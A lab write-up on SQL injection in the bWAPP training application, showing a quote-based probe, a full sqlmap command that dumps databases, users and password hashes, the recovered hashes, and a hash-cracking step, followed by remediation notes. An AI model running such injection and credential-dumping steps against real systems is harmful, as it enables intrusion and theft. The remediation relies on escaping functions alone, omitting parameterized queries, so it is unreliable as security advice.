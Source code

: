 # 1. Low
On first look, we found that there was text box. I tried to input `a` value and search it. When user click Go, the client will send to server with following variables: `var movie = a` and `var action = go`.

![SQL_G-Sel_L0.png](image/SQL_G-Sel_L0.png)

I tried with Single Quote (`' or %27`) which usually causing the SQL Injection vulnerable. And following picture is what we expected error Message.

![SQL_G-Sel_L1.png](image/SQL_G-Sel_L1.png)

And following attack will be the same with [SQL Injection (GET-Search)](SQL%20Injection%20(GET-Search).md)


---
# 2. Medium
In this case, lab using `mysql_real_escape_string()` function to filter, so could not bypass

In this case, lab using [mysql_real_escape_string()](https://www.php.net/manual/en/function.mysql-real-escape-string.php) function to filter which is convert `'` to `\'` or other risk character that causing escape string of SQL.

---
# 3. Script Supported
In this case, SQL Injection Techniques has already have [SQLMap](https://sqlmap.org/) which is a powered tool develop in python so that I should not write a script because of not better than [SQLMap](https://sqlmap.org/) 😁
- `sqlmap.py -u http://bee.bug:80/bWAPP/sqli_2.php?movie=1%27&action=go --hostname --tables --users --dbs --passwords --columns --cookie=PHPSESSID=c77d6e1e60e432177d833db76d92d0a9;security_level=0`

![SQL_G-S-SS0.png](image/SQL_G-S-SS0.png)

We known the credentials in hashes:
```shell
[*] debian-sys-maint [1]:
    password hash: *D4749CBC6F877E93F4A942F787C272224CC91D4A
[*] root [1]:
    password hash: *07BDCCE30E93A12AA2B693FD99990F044614A3E5
```
Trying to use [Crackstation](https://crackstation.net/) to see if we can have cleartext?

![SQL_G-S-SS1.png](image/SQL_G-S-SS1.png)

And finally, all reports that output in following path: 
- Environment variable path: `%LocalAppData%\sqlmap\output\<host_name_scanned>`
- Shell folder: `shell:Local AppData\sqlmap\output\<host_name_scanned>`

---
# 4. Remediation

- Validating User Input and only accept word or number only, example given using regular expression: `\w+` or `[a-zA-Z0-9 .-_]+`
- Using function to filter input: 
	- `$value = mysql_real_escape_string($data);`
	- `$value = addslashes($data);`
- Using [sanitize filter php](https://www.php.net/manual/en/filter.filters.sanitize.php)
